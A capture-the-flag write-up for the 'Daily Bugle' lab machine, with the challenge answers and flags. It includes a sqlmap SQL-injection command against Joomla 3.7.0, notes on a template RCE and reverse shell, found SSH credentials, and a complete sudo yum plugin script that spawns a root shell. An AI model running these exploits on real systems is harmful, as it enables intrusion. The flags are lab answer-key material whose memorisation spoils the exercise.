 # DAILY BUGLE

## BASIC INFO

```
export IP=10.10.132.139

```
> - **Access the web serer, who robbed the bank?**
>> Spiderman

## OBTAIN USER AND ROOT

> - **What is the Joomla version?**
>> 3.7.0

> - **What is Jonah's craacked password?**
>> spiderman123
```
sqlmap -u "http://10.10.132.139/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

Search for vulnerabilities of Joomla. Found out we can have RCE on the template page. Using reverse shell from pentestmonkey we got a reverse shell. Then enumerate the machine with linPeas. Found credentials:\

`jjameson:nv5uz9r3ZEDzVjNu`

ssh into machine with above credentials

> - **What is the user flag?**
>> 27a260fe3cba712cfdedb1c86d80442e

Running sudo -l we see that we can run yum as sudo without password\
Goinf to [gtfo bin](https://gtfobins.github.io) we search for yum.
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
cd into tmp and create a file name shell. Copy this into shell and make it executable. THen run it and we are root now.
> - **What is the root flag?**
>> eec3d53292b1821868266858d7fa6f79